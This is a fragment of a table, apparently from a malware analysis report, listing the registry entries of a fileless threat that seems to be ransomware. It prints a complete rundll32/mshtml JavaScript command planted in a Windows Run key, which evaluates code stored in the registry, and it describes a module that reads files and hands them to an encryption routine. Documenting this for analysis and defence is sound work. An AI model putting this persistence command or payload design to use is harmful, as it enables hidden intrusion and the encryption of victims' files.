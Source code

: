 </td>

<td>

_Value_

</td>

</tr>

<tr>

<td>

_Main module_

</td>

<td>

_HKEY_LOCAL_MACHINE \ Software\Microsoft\Windows\ _

_CurrentVersion\Run_

</td>

<td>

_rundll32.exe javascript:"\..\_

_mshtml,RunHTMLApplication ";_

_document.write("\74script language=jscript.encode>"+_

_eval((new%20ActiveXObject("WScript.Shell"))._

_RegRead("HKLM\\fileReadModule"))+"\74/script>")_

</td>

</tr>

<tr>

<td>

_File reading Module_

</td>

<td>

_HKEY_LOCAL_MACHINE \ fileReadModule_

</td>

<td>

_Code segment for read files using Scripting.FileSystemObject and use eval() to call the file encryption module and pass the each file path_

</td>

</tr>

